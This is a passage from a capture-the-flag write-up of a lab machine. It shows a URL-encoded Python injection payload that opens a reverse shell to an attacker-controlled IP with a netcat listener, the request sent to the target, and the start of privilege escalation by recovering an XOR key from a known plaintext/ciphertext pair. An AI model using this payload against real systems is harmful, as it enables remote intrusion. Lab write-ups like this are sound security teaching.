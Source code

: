 To try it out I added those two lines and started the server locally.

```python
serv = Server('127.0.0.1', 7777)
serv.listen()
```

Then I started a reverse shell listener with `nc -nlp 9999` and URL encoded the
key characters of the reverse shell payload so it can fit in the URL.

```
http://127.0.0.1:7777/toto.html?tata=a%27;%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.237%22,9999));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%20a=%20%27
```

As I worked I tried immediately on the box.

```
GET /?tata=a%27;%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.237%22,9999));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%20a=%20%27 HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

### System Privilege Escalation : www-data to robert

**TL;DR**: `SuperSecureCrypt.py` XORing

I started enumerating the home directories and saw this:

```
$ cd /home/robert/
$ ls -lh
total 24K
drwxr-xr-x 2 root   root   4.0K Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2.5K Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
```

We can see there is script named `SuperSecureCrypt.py` ([source code](https://gist.github.com/noraj/b4b153ac914ba4cd187f105719371d8f#file-supersecurecrypt-py)).

`out.txt` seems to be encrypted with the script, `check.txt` seems to be the
corresponding clear text and `passwordreminder.txt` is also encrypted.

The encrypt and decrypt functions seems to be XOR-like functions so it is
permutable: `out.txt x check.txt = key`.
